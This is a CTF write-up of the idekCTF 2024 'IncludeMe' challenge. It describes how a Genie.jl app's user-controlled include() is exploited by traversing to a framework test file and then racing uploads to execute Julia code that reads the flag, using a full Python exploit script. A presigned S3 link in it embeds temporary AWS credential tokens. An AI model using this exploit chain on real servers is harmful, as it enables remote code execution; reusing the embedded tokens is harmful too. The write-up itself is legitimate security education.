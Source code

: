 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466Y2X2DI25%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T092217Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDEaCXVzLXdlc3QtMiJGMEQCICnhNFMjJOnYivUI%2B4TIGfVrZZRVT1mcVn4nCms%2BnZjVAiBb8nXTuGFKIQv%2FO0%2B3SYcnu8MTvN%2FOiOyFMIXLlqO%2F4iqIBAjq%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMmRv6L8jjlmd61Ki4KtwDq6Ygswd5bfUuhBIZt9UwNKbjnqAGVRCu059qjRxee9SWcqBuwh7XMKcepXl54q1S9J9hyT2iPFwGW6lQ3vaEQVuD3ZkVYt1xD%2BmQazXgaZUU99bth1fdBNr7LAtEB4XfTWoZtCVuVXI8nYG00yj3Cnts3E%2FosIjNlVSgYLW8cwSfaYsmI4ZEc%2BL%2FNP2jK%2BieIc86WkJGzNjDfIDTkLIhQweCKluwUEcRZUQ7zGbHYkF2dkOBlhKW2iDelcCB1GfPjnXRB%2FqW%2FvgYU4bny%2F4%2BlFfrthANak5FCzYIftWFBQMGomugzyNJ0XEIQ1KEtwKX81FXXb1PF5aUimJ0dpfU8he%2Bhge7038qNt6xD6jPH8%2B2WMe4l47lnfNf3knANJMsVBCS6KJqAomVenpH%2F5I3BV68HxT3oYWStxZnfYX%2FW8jZ8tJaQPw9RmCdgOXV5T2tmNt2W%2FbHllQQZ76OhybK3LFcQcxh3R0kmG0RuiShJLeuLzdBdI8go0FZgJ0jl%2BHkyz2jXSS2D0u%2FXgbM3VnmaoZh50%2FjRcyGz%2FCl19Q1I1IWtoaymTJTgNY%2BRezYXyfAbNfZ6kypF2AHYM7xXYaBUmpeVLEHb1ESL%2B%2BBsoHDAlSw%2ByUo3RviWcKIDO4w%2BfHAwQY6pgHZ4ud4P4rtYjTeIW%2FG1i2%2B4ZwdJKdYUVux5njbFjeuva5LQ1KUwoja7iJ7sIR0ra80khLiGiJhot741UYLssX5%2B3XDvwsTWDkkX677bZAkMc%2BAPUz51USUS%2Bq0Twe5%2FW4Dj5i%2FoHG%2FEhYMl2l2lvIyvvc11gBoSVBTU7swidKcfv%2FLpT14QKpPTz0KXyMhMfrKbb%2Fu5qgZs9ersgKue00eDccthkaX\&X-Amz-Signature=159dd9ecc36ae9bfdde2c04ab0f996329727339d169acd04af3121d61058d7b4\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
